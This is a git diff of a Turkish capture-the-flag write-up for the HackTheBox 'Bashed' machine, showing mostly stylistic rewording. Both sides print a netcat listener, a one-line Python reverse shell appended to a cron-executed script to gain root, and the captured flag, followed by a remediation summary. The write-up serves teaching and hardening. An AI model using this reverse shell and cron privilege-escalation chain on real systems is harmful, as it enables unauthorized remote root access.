

Before and after one commit to burakcanbalta/burakcanbalta.github.io, a Markdown page: content/articles/Bashed.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/content/articles/Bashed.md
+++ b/content/articles/Bashed.md
@@ -95,26 +97,26 @@ drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun  2  2022 /scripts
 
-Zincir şu şekilde tamamlanıyor:
+Zinciri şöyle kuruyoruz:
 
 1. `/scripts`, `scriptmanager` tarafından yazılabilir.
 2. Root, bu dizindeki script'leri periyodik olarak kendi yetkisiyle çalıştırıyor.
-3. `scriptmanager` context'i bu dizine dosya yazmaya yetiyor.
-4. **Sonuç:** Buraya bırakılan herhangi bir kod, root tarafından root yetkisiyle execute edilir — klasik *writable path + privileged scheduled execution* kombinasyonu.
+3. `scriptmanager` context'imiz bu dizine dosya yazmamıza yetiyor.
+4. **Sonuç:** Buraya bıraktığımız herhangi bir kod, root tarafından root yetkisiyle execute ediliyor — klasik *writable path + privileged scheduled execution* kombinasyonu.
 
-İkinci bir listener açılıyor (ilk shell korunuyor):
+İkinci bir listener açıyoruz (ilk shell'imizi koruyoruz):
 
 ```bash
 rlwrap nc -nvlp 4445
 ```
 
-`/scripts` dizinine yeni bir payload yazılıyor:
+`/scripts` dizinine yeni payload'ımızı yazıyoruz:
 
 ```bash
 echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.187",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> /scripts/test.py
 ```
 
-Port `4444`'ten farklı seçildi (`4445`), aktif ilk shell ile karışmasın diye. `echo ... >>` tercih edilmesinin nedeni pratik: elde interaktif bir editör olmadan dosyayı doğrudan oluşturup içeriği tek satırda yazmak.
+Port'u `4444`'ten farklı seçiyoruz (`4445`), aktif ilk shell'imizle karışmasın diye. `echo ... >>` kullanıyoruz çünkü elimizde interaktif bir editör yok — dosyayı doğrudan oluşturup içeriği tek satırda yazıyoruz.
 
-Cron'un bir sonraki tetiklenmesi (tipik olarak ≤1 dakika) bekleniyor:
+Cron'un bir sonraki tetiklenmesini bekliyoruz (tipik olarak ≤1 dakika):
 
 ```
 connect to [10.10.14.187] from (UNKNOWN) [10.129.51.18] 35430
@@ -123,7 +125,7 @@ connect to [10.10.14.187] from (UNKNOWN) [10.129.51.18] 35430
 root
 ```
 
-`test.py`, root'un cron job'u tarafından root yetkisiyle çalıştırıldı ve içindeki reverse shell payload'ı tetiklendi.
+`test.py`'yi root'un cron job'u root yetkisiyle çalıştırıyor ve içindeki reverse shell payload'ımız tetikleniyor.
 
 ```
 # cd /root
@@ -131,8 +133,10 @@ root
 7296b59278b52eb59fbb3c51f8043a27
 ```
 
+Root flag'i de aldık.
+
 ---
 
 ### Özet
 
-Zincir üç yapılandırma hatasının üst üste gelmesinden oluşuyor: production'da unutulmuş bir debug web shell (phpbash) doğrudan RCE veriyor; `sudo -l` çıktısındaki `NOPASSWD: ALL` kuralı `scriptmanager`'a sınırsız komut çalıştırma yetkisi tanıyor; ve root'a ait bir cron job, düşük yetkili bir kullanıcı tarafından yazılabilir bir dizini (`/scripts`) kontrolsüzce execute ediyor. Kalıcı çözüm: geliştirme araçlarının CI/CD seviyesinde production'dan hariç tutulması, sudo kurallarının komut bazında en az yetkiyle (`Cmnd_Alias` + spesifik path) sınırlandırılması, ve root tarafından çalıştırılan her cron script'inin sahiplik/yazma izinlerinin düzenli denetlenmesi.
+Zincir üç yapılandırma hatasının üst üste gelmesinden oluşuyor: production'da unutulmuş bir debug web shell (phpbash) bize doğrudan RCE veriyor; `sudo -l` çıktısındaki `NOPASSWD: ALL` kuralı `scriptmanager`'a sınırsız komut çalıştırma yetkisi tanıyor; ve root'a ait bir cron job, düşük yetkili bir kullanıcı tarafından yazılabilir bir dizini (`/scripts`) kontrolsüzce execute ediyor. Kalıcı çözüm olarak şunları öneriyoruz: geliştirme araçlarını CI/CD seviyesinde production'dan hariç tutmak, sudo kurallarını komut bazında en az yetkiyle (`Cmnd_Alias` + spesifik path) sınırlandırmak, ve root tarafından çalıştırılan her cron script'inin sahiplik/yazma izinlerini düzenli denetlemek.
````
Also changed, not shown: other parts of content/articles/Bashed.md (+12 -10 lines).
